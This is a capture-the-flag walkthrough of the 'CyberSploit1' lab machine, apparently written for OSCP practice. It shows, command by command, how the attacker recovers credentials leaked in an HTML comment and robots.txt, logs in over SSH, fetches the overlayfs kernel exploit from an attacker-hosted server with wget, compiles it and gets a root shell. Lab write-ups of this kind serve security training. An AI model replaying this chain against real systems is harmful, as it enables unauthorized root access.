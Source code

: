 ```yaml
---
title : "CyberSploit1- Walkthrough"
date : 21-10-2024 01:30:00
tags : [Offsec-Play, OSCP]
---
```


## Summary

This machine is exploited by disclosure of a user name and a very obscure password. It is escalated via a local Linux kernel exploit.

## Enumeration

### Nmap

We start off by running an `nmap` scan:

```bash
kali@kali:~$ sudo nmap 192.168.120.216
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 11:36 EDT
Nmap scan report for 192.168.120.216
Host is up (0.036s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Username Disclosure

If we look at the source code of the default web page on port 80 of our target we will see the following commented-out line:

```bash
kali@kali:~$ curl http://192.168.120.216
<!doctype html>
<html lang="en">
...
<!-------------username:itsskv--------------------->
</body>
...
```

This leaks the username `itsskv`.

### Password Disclosure

Running `dirb` with the default wordlist and non-recursive option shows that **robots.txt** is present in the web root:

```bash
kali@kali:~$ dirb http://192.168.120.216 -r
...
---- Scanning URL: http://192.168.120.216/ ----
+ http://192.168.120.216/cgi-bin/ (CODE:403|SIZE:291)
...
+ http://192.168.120.216/robots.txt (CODE:200|SIZE:79)
...
```

Viewing the file, we encounter what looks to be a base64-encoded string:

```bash
kali@kali:~$ curl http://192.168.120.216/robots.txt
Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=
kali@kali:~$
```

We can decode it, revealing the following:

```bash
kali@kali:~$ curl http://192.168.120.216/robots.txt | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    53  100    53    0     0    736      0 --:--:-- --:--:-- --:--:--   736
cybersploit{youtube.com/c/cybersploit}
...
```

## Exploitation

### SSH

Although the decoded string (`cybersploit{youtube.com/c/cybersploit}`) seems quite odd, we can try it as the password to the username we have discovered:

```bash
kali@kali:~$ ssh itsskv@192.168.120.216
...
itsskv@192.168.120.216's password: 
...
itsskv@cybersploit-CTF:~$ id
uid=1001(itsskv) gid=1001(itsskv) groups=1001(itsskv)
itsskv@cybersploit-CTF:~$
```

And we successfully authenticate as the user `itsskv`.

## Escalation

### Local Enumeration

One of the first things to enumerate is the kernel version of the target:

```bash
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
itsskv@cybersploit-CTF:~$
```

Researching this kernel version, we find that this system is vulnerable to `overlayfs` local privilege escalation exploit (https://www.exploit-db.com/exploits/37292):

```bash
kali@kali:~$ searchsploit "3.13.0"
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Loca | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Loca | linux/local/37293.txt
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Linux Kernel Exploit

We will host the source code file on our attacking machine using a simple Python HTTP server and download it to the target machine.

```bash
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.120.216 - - [03/Sep/2020 11:57:51] "GET /37292.c HTTP/1.1" 200 -
...
```

Downloading the exploit to our target machine:

```bash
itsskv@cybersploit-CTF:~$ cd /tmp/
itsskv@cybersploit-CTF:/tmp$ wget http://192.168.118.3/37292.c
--2020-09-03 21:27:52--  http://192.168.118.3/37292.c
Connecting to 192.168.118.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3861 (3.8K) [text/plain]
Saving to: `37292.c'

100%[=======================================================================>] 3,861       --.-K/s   in 0s      

2020-09-03 21:27:52 (208 MB/s) - `37292.c' saved [3861/3861]

itsskv@cybersploit-CTF:/tmp$
```

Next, we can compile the source code:

```bash
itsskv@cybersploit-CTF:/tmp$ gcc 37292.c -o 37292
itsskv@cybersploit-CTF:/tmp$
```

Finally, we are able to exploit this kernel version and obtain an elevated shell:

```bash
itsskv@cybersploit-CTF:/tmp$ whoami
itsskv
itsskv@cybersploit-CTF:/tmp$ ./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# python -c 'import pty; pty.spawn("/bin/bash")'
root@cybersploit-CTF:/tmp# 
root@cybersploit-CTF:/tmp# whoami
root
root@cybersploit-CTF:/tmp#
```